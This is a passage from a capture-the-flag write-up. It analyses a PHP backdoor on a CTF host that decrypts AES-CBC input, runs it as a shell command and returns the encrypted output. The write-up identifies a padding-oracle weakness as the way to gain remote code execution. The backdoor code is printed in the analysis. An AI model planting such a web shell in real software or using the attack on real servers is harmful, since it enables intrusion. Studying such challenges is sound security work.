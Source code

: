 ```php
Jh6Jx2u+HJu0HoqAwAJs9MxZYSk9s7sCaGmngf3FMDJvHG5Rnb9qXC3TAAauWTu+
TV+A+A3l5WU+9NMR1RF1WGACTRcHZEnCvdIUDRNHygKTRp+TPq2jfY7DwHnwtqdc
+W2ArHhSOuwD2Jc/gQIDAQAB
-----END PUBLIC KEY-----
EOF
    );
    $r = "\0" . random_bytes(127);
    $_SESSION["r"] = $r;
    $c = "";
    openssl_public_encrypt($r, $c, $k, OPENSSL_NO_PADDING);
    echo base64_encode($c);
}

?>
```

This file is being run at `http://bibliobibuli.ctf/rfcs/x.php`, so post requests to that url trigger this code.

This includes an RSA public key, (presumably the "intended" way of authenticating to this backdoor as a user,) as well as two AES keys. The AES keys are encrypted using the RSA public key and stored in your cookie, so as long as you keep the same cookie, the same keys will be used.

When you send a payload to this server, this section of the code is relevant. 

```php
    $p = openssl_decrypt($c, "AES-256-CBC", $k2, 0, $i);
    if (!$p) {
        http_response_code(500);
        die();
    }

    $d = array(array("pipe", "r"), array("pipe", "w"), array("pipe", "w"));
    $sh = proc_open("sh", $d, $io);
    fwrite($io[0], $p);
    fclose($io[0]);
    $p = stream_get_contents($io[1]);
    fclose($io[1]);
    fclose($io[2]);
    proc_close($sh);

    $c = openssl_encrypt($p, "AES-256-CBC", $k1, 0, $i);
    echo $c;
```

The payload is first decrypted using `openssl_decrypt($c, "AES-256-CBC", $k2, 0, $i)`, (which takes a base64 encoded AES-256-CBC ciphertext and decryots it,) then the result of this gets run as a command in `sh`, and finally, the output of the command being run gets encrypted under key `k1` and returned to the user.

If we could find `k2` we would have RCE, and if we could find `k1` we would be able to get outputs from the server.

Finally, we note that `openssl_decrypt` uses [PKCS#7 padding](https://en.wikipedia.org/wiki/Padding_(cryptography)#PKCS#5_and_PKCS#7) and will error out if the padding on the decrypted plaintext is invalid. This is a classic example of an AES-CBC padding oracle.
